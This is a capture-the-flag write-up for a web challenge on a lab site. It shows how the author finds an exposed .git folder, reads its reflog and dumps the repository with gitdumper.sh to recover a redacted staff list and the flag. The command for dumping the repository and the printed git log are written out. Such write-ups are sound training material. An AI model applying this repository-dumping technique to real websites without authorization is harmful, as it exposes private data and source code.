 # Meet the team

## The brief

```
Recover the list of employees working at CONSTELLATIONS.

With the flag of this challenge, you should find new information that will help with future challenges.

You should find the flag for this challenge ON THIS constellations.page website. You will not find it on GitHub.

HINT: "Can we please stop sharing our version control software out on our website?"

HINT AGAIN: you are looking for a publicly accessible version control software folder published on the constellations.page website itself

After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.
```
Again we have to look at the `constellations.page` page. And from `Bionic` we have the `meet-the-team.html` page!

## Page
</br>
![pag](./pag.png)
</br>

We have to recover the list! Again we can use [webctf](https://github.com/xnomas/web-ctf-help) to find hints:
```
webctf https://constellations.page/meet-the-team.html

=============
COMMENTS
=============

[+] 1 :   Vela, can we please stop sharing our version control software out on the public internet?  <----
[+] 2 :   Bootstrap core CSS
[+] 3 :   Custom fonts for this template
[+] 4 :   Custom styles for this template
[+] 5 :   Navigation
[+] 6 :   Header
[+] 7 :   About Section
[+] 8 :   Contact Section
[+] 9 :   Footer
[+] 10 :   Bootstrap core JavaScript
[+] 11 :   Plugin JavaScript
[+] 12 :   Custom scripts for this template

=============
SCRIPTS
=============

[+] 1 : assets/vendor/jquery/jquery.min.js
[+] 2 : assets/vendor/bootstrap/js/bootstrap.bundle.min.js
[+] 3 : assets/vendor/jquery-easing/jquery.easing.min.js
[+] 4 : assets/js/grayscale.min.js

=============
IMAGES
=============

sources:
--------
[+] 1 : assets/img/laptop.png

alts:
-----
[+] 1 :

===================
INTERESTING HEADERS
===================

Server : Apache/2.4.25 (Debian)
```
We are looking for a popular Version Control service folder.... maybe `.git`:
</br>
![nope](./nope.png)
</br>
But nope! Time to go deeper! `.git/logs/`, also nothing. How about `.git/logs/HEAD`?
```
0000000000000000000000000000000000000000 1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a Leo Rison <leo.rison@constellations.page> 1614124430 -0500	commit (initial): Added initial assets and landing page
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614124968 -0500	commit: Added the Meet The Team page
87b17a86409582c162e260795afdf104dc1d46b1 8e9e7afad5d1f7c6c3dcf322a3a94aeebc1e0073 Leo Rison <leo.rison@constellations.page> 1614125173 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
8e9e7afad5d1f7c6c3dcf322a3a94aeebc1e0073 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614125488 -0500	checkout: moving from master to 87b17a
87b17a86409582c162e260795afdf104dc1d46b1 0780dea9ede681b1e4276d74740bb11056d97c39 Leo Rison <leo.rison@constellations.page> 1614125881 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
0780dea9ede681b1e4276d74740bb11056d97c39 87b17a86409582c162e260795afdf104dc1d46b1 Leo Rison <leo.rison@constellations.page> 1614125918 -0500	checkout: moving from 0780dea9ede681b1e4276d74740bb11056d97c39 to 87b17a86409582c162e260795afdf104dc1d46b1
87b17a86409582c162e260795afdf104dc1d46b1 1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a Leo Rison <leo.rison@constellations.page> 1614125954 -0500	checkout: moving from 87b17a86409582c162e260795afdf104dc1d46b1 to 1142cc
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 Leo Rison <leo.rison@constellations.page> 1614125972 -0500	commit: Added the Meet The Team page
4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 e7d4663ac6b436f95684c8bfc428cef0d7731455 Leo Rison <leo.rison@constellations.page> 1614126014 -0500	commit: Management said I need to remove the team details so I redacted that page and added it to robots.txt
```
And we want to get to this:
```
1142cc3145fdba8d9eb8f9c9e7ee79bdfda64d9a 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60 Leo Rison <leo.rison@constellations.page> 1614125972 -0500	commit: Added the Meet The Team page
```
Before the removal. 

## Dumping

I used this [tool](https://github.com/internetwache/GitTools), specificaly `gitdumper.sh`:
```
gitdumper.sh https://constellations.page/.git/ git
```
So like this I got eeeeeverything. 
```bash
cd git; cd .git; git log

commit 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60
Author: Leo Rison <leo.rison@constellations.page>
Date: Tue Feb 23 18:53:50 2021 -0500

    Added the Meet The Team page

```
And this is the commit we want, now just `git show 4c88ac1c56fe228267cf415c3ef87d7c3b8abd60`:
```html
<!-- <li><h4><b>flag{4063962f3a52f923ddb4411c139dd24c}</b></h4></li> -->
```
Voila!q
